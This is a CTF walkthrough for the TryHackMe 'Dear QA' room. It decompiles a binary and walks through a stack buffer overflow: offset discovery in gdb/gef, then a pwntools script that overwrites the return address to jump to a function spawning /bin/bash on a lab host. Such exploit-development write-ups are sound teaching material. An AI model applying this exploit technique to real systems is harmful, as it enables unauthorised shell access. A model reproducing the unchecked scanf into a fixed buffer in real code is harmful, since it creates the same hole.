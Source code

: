 ```yaml
---

title: Walkthrough - Dear QA
published: true
---
```


Tags: PWN, Reversing, Overflow, ASM.
Description: Are you able to solve this challenge involving reverse engineering and exploit development?
Difficulty: Easy
URL: [https://tryhackme.com/room/dearqa](https://tryhackme.com/room/dearqa)

* * *

## Notes

- `file DearQA.DearQA`
- analyze the file in ghidra

There are a few different functions:

```c
void vuln(void)

{
  puts("Congratulations!");
  puts("You have entered in the secret function!");
  fflush(stdout);
  execve("/bin/bash",(char **)0x0,(char **)0x0);
  return;
}
```

```c
undefined8 main(void)

{
  undefined local_28 [32];
  
  puts("Welcome dearQA");
  puts("I am sysadmin, i am new in developing");
  printf("What\'s your name: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400851,local_28);
  printf("Hello: %s\n",local_28);
  return 0;
}
```

```c
void __libc_csu_init(EVP_PKEY_CTX *param_1,undefined8 param_2,undefined8 param_3)

{
  long lVar1;
  
  lVar1 = 0;
  _init(param_1);
  do {
    (*(code *)(&__frame_dummy_init_array_entry)[lVar1])((ulong)param_1 & 0xffffffff,param_2,param_3)
    ;
    lVar1 = lVar1 + 1;
  } while (lVar1 != 1);
  return;
}
```

So this should be vulnerable to buffer ovrflow however I only have experience doing buffer overflows with windows executables. Buffer overflows occer when we send a program enough data so we can overflow it and overwrite other data or alter it. We might be able to use this vulnerability to jump to the vuln function which executes the /bin/bash and gain access to the server. 

For windows I would use Immunity debugger to find if the files has protections but in linux we can use `gdb` and `gef` to find the protections

![0xskar](/assets/dear-qa01.png)

This shows us that the file has all of the security protections turned off. So now what we need to do is find the offset where we can overflow the binary.

`pattern create 50` creates a pattern of 50 chars that we can use to send to the program. We can then check the memory and see if its overwritten with our pattern.

We then use `r` in gef to run the program and it should crash. so lets examine the memory address. 

![0xskar](/assets/dear-qa02.png)

We can use `x/xg $rsp` to call the memory address then after getting the address use `pattern offset 0x6161616161616166` We can now test to show control of the RSP, by running the binary again and replacing the RSP with all B's.

- create our pattern `python3 -c "print('A' * 40 + 'B' * 8)"` and run the code again pasting in our new pattern.

![0xskar](/assets/dear-qa03.png)

So since we confirmed we have control of the RSP variable, if we were to put a valid address on the RSP we can cause the program to continue through execution of the program. So we can use this to jump to the vuln function. 

Becuase the program has ASLR disabled this mean the binary will use the exact memory addresses every time it starts.

The vuln function has the memory address `0x00400686`

So with all of this information we can now create our exploit.

```python
#!/usr/bin/env python3

# import all from pwn
from pwn import *

# target address
host = "10.10.216.48"
port = "5700"

# target executable information
context(terminal = ['tmux', 'new-window'])
binary = context.binary = ELF("./DearQA.DearQA")
context(os = "linux", arch = "amd64")

# connect to target
connect = remote(host, port)
log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")

# payload with target memory address
payload = b'A' * 40
payload += p64(0x00400686)

# send payload and keep socket open
log.info("[+] Sending payload to remote server")
connect.sendline(payload)
connect.interactive()
```

Executing the script gives us a reverse shell. However its not sending us back any information when we send characters. We can try to send through another reverse shell.

Not easy!

* * * 

## flag

![0xskar](/assets/dear-qa04.png)

* * * 

